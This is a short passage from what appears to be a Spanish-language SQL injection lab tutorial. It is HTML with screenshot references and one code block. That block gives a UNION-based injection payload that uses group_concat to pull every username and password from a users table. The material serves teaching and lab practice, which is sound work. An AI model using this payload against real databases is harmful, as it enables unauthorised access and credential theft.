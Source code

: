 Tendríamos como resultado:

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 19.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Ahora podemos hacer:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">' union select '-1''union select 1,group_concat(username),group_concat(password),2 from users-- -</code></pre>
  </div>
</div>


---